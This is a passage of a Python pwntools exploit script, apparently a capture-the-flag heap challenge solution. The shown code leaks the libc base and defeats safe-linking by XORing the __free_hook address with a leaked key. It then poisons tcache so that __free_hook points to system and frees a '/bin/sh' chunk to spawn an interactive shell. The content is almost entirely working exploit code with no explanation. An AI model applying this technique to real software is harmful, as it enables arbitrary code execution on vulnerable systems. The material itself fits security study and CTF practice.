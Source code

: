 ```python
    create(9,0x430,'cc')
    # p()
    show(7)
    # p()
    io.recvuntil('Content-Length: 6\n')
    libc_base = u64(io.recv(6).ljust(8,b'\x00')) - 0x1e0ff0
    success('libc_base-->'+hex(libc_base))
    success("key-->"+hex(key))
    success("heapbase-->"+hex(heapbase))
    
    free_hook = libc_base + libc.symbols['__free_hook']
    system_addr = libc_base + libc.symbols['system']    
    # free(0)
    
    create(11,0x30,'a')
    create(12,0x30,'b')
    create(13,0x30,'c')
    free(11)
    free(12)
    edit(12,p64(free_hook^key))
    # p()
    create(14,0x30,'/bin/sh')
    create(15,0x30,p64(system_addr))
    free(14)
    success('free_hook-->'+hex(free_hook))
    success('system-->'+hex(system_addr))
    
    # p()
       
    
    io.interactive()
    
    
if __name__ == '__main__':
    pwn()
```

